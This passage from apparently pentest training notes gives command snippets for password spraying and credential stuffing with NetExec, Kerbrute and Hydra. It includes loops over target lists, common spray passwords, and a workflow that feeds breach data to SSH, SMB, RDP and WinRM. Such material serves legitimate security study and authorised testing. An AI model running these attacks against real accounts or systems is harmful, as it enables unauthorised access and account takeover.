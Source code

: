 **Tools:**
```bash
# NetExec password spray
netexec smb 10.100.38.0/24 -u usernames.list -p 'ChangeMe123!'

# Kerbrute for AD (faster)
kerbrute passwordspray --dc 10.100.38.1 usernames.txt 'Password123!'

# Hydra password spray
hydra -L usernames.txt -p 'Password123!' ssh://10.100.38.23

# Custom script for multiple targets
for ip in $(cat targets.txt); do
    netexec smb $ip -u usernames.txt -p 'Password123!'
done
```

**Common spray passwords:**
- `Password123!`
- `Welcome1!`
- `ChangeMe123!`
- `CompanyName2024!`
- `Summer2024!`
- `Monday123!`
- `P@ssw0rd`

### Credential Stuffing
**Definition:** Using stolen credentials from one service to access others

**Sources of credentials:**
- Database breaches
- Password dumps
- Previous compromises
- OSINT findings

**Tools:**
```bash
# Hydra with credential pairs
hydra -C user_pass.list ssh://10.100.38.23

# NetExec with credential pairs
netexec smb 10.100.38.23 -u users.txt -p passwords.txt --no-bruteforce

# Custom format: username:password
cat user_pass.list
admin:admin
user:password
root:toor
```

**Credential stuffing workflow:**
```bash
# 1. Prepare credentials from breach data
cat breach_data.txt | cut -d: -f1,2 > credentials.txt

# 2. Test against multiple services
for service in ssh smb rdp winrm; do
    echo "[*] Testing $service..."
    netexec $service targets.txt -C credentials.txt
done

# 3. Focus on successful hits
netexec smb successful_targets.txt -C credentials.txt --continue-on-success
```
